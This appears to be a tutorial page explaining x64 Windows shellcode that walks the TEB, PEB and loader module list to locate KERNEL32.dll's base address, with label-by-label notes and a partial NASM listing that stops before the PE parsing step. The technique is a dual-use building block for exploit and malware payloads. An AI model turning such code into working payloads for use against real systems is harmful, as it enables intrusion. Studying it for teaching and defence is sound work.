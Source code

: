 ### Implementation (Assembly Code)

### Explanation of Each Label  

- **`start`**: Parses the TEB, PEB, and `_LDR_DATA_TABLE_ENTRY`.  
- **`find_names`**: Parses the `_LDR_DATA_TABLE_ENTRY`, finds the module name, and decrements the counter value.  
- **`is_finished`**: Checks if the target DLL is found; if not, it continues parsing the next entry in `_LIST_ENTRY`.  
- **`iterate_chars`**: Consumes the DLL names (optional checks can be added here, but they won’t be effective).  
- **`next_iteration`**: Adjusts the `_LIST_ENTRY` and moves from the current to the next entry.  
- **`load_address`**: Loads the DLL base address once the target DLL is found.  
- **`parse_pe`**: Responsible for parsing the Portable Executable (PE) structure.  
- **`exit`**:  Ensures smooth termination.  

`shellcode.asm`

```rust
bits 64 
section .text
    global start 
start:
    push rbp
    mov  rbp, rsp 
    sub  rsp, 0x1000                    ; 4096 bytes 

    push 0x02                           ; Stops at KERNEL32.dll, Counter Value
    mov rax, gs:[0x60]                  ; TEB
    mov rax, [rax + 0x18]               ; PEB.Ldr
    mov rax, [rax + 0x20]               ; PEB.Ldr->InMemoryOrderModuleList 
    mov rax, [rax]                      ; _LDR_DATA_TABLE_ENTRY
    sub rax, 0x10                       ; _LDR_DATA_TABLE_ENTRY.InMemoryOrderLinks

find_names:
    mov [rsp + 0x08], rax               ; _LDR_DATA_TABLE_ENTRY
    add rax, 0x58                       ;  _LDR_DATA_TABLE_ENTRY.BaseDllName
    xor rcx, rcx            
    mov rcx, [rax]                      ; _UNICODE_STRING.Length
    and rcx , 0x0fff                    ; Length of DllName  (WORD)
    mov rbx , [rax  + 0x08]             ; DLL name  _UNICODE_STRING.Buffer
    mov rdx , [rsp ]                    ; Moving Counter value 2 
    dec rdx                             ; Decrements the Counter Value
    mov [ rsp ] , rdx                   ; Updates the counter value in the stack

is_finished:
    cmp rdx, 0x00
    je load_address
    jmp iterate_chars                    ; Consumes the DLL Name

iterate_chars:
     add rcx, 0xfffffffffffffffe         ; Subtract 2 from DllName Length i.e. (0xffffffffffffffff - 0xfffffffffffffffe+0x1)
     cmp rcx, 0x00                       ; 
     je next_iteration
     jmp iterate_chars

next_iteration:
    sub rax, 0x58                        ; _LDR_DATA_TABLE_ENTRY 
    add rax, 0x10                        ; _LDR_DATA_TABLE_ENTRY.InMemoryOrderLinks (_LIST_ENTRY)
    mov rax, [rax ]                      ; _LIST_ENTRY.Flink
    sub rax, 0x10   
    jmp find_names
load_address:
```